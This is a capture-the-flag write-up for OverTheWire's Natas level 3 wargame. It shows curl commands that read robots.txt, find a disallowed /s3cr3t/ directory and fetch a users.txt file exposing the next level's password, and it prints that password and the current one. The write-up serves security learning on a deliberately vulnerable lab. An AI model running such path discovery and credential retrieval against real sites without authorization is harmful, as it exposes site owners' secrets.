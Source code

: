 # Natas Level 2 → Level 3 

## 🧠 Goal

Find password to the next level
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org
---

## 🔐 Credentials

- **Username:** `natas3`  
- **Host:** `http://natas3.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>

┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/

┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/s3cr3t/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /s3cr3t</title>
 </head>
 <body>
<h1>Index of /s3cr3t</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-04-10 14:18  </td><td align="right"> 40 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.58 (Ubuntu) Server at natas3.natas.labs.overthewire.org Port 80</address>
</body></html>
```

!["level 03"](./Natas/images/level 03.png)


```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

```
___

## 💡 Tips
```bash

```
___

## 📤 Output
```bash
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
